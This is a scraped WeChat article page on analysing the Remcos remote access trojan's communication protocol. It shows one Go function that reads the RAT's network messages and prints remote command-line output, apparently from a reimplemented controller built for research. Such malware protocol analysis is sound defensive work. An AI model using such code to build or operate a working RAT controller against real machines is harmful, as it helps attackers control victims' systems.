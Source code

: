     
    
    package remcos_xx  
      
    import (  
     "encoding/hex"  
     "fmt"  
     "net"  
    )  
      
    func Command_Command_Line(conn net.Conn) {  
     for {  
      mu.Lock()  
      if stopped {  
       mu.Unlock()  
       break // 退出循环  
      }  
      mu.Unlock()  
      
      buf_recv, err := RecvBuf(conn)  
      if err != nil {  
       fmt.Println(err.Error())  
       panic(0)  
      }  
      if (hex.EncodeToString(buf_recv[:4]) == "62000000") && (len(buf_recv) > 4) {  
       fmt.Print(string(buf_recv[4:]))  
      }  
     }  
    }

  

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# Remcos RAT通信模型剖析及攻防技术对抗

原创 T0daySeeker  [ T0daySeeker ](javascript:void\(0\);)

轻触阅读原文

![]()

T0daySeeker

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

